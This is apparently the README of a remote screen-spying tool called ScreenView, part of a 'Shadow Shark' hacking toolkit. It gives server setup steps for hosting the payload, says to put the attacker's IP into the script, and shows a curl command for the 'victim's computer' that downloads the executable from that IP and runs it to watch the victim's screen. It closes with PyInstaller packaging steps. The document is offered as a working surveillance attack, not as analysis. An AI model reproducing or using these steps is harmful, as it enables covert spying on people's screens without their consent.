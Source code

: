 # ScreenView
The Shadow Shark ScreenView Module.

## Installation
### Debian
```
$ sudo apt-get install git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
```
### Arch
```
$ sudo pacman -S git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
```

## Usage
### ScreenView.py
This module can run on Windows and MacOS. To configure the payload go to line 40 and replace IP with your IP.
### On victim's computer
```
$ curl http://IP/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (time in minutes to view the victim's screen)
```

## Compilation
This module must be compiled on a Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Windows computer, Wine environment or MacOS computer.
$ pip install pyinstaller
$ pyinstaller --onefile --icon icon.ico ScreenView.py
